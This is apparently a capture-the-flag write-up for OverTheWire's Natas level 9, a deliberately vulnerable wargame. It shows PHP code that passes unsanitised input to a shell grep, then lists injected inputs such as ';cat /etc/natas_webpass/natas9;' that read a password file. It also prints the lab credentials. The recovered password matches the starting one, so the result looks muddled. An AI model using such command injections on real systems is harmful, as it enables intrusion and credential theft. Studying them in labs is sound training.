 # Natas Level 9
The ***URL*** to which you need to connect is *http://natas9.natas.labs.overthewire.org*. The ***username*** is *natas9* and the ***password*** is *W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl*. 

Lets check the [viewsource](http://natas9.natas.labs.overthewire.org/index-source.html) link.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
By analysing the php script we see that the filter is not being sanitize. Therefore, we can inject additional commands like "ls" 
##### Mark 


>When I enter "*" in the input I receive the index-source.html if you know why please let me know.

```
;pwd
# /var/www/natas/natas9
; find / -name natas9 -type f;
# /etc/natas_webpass/natas9
;cat /etc/natas_webpass/natas9;
```

```
Password : W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
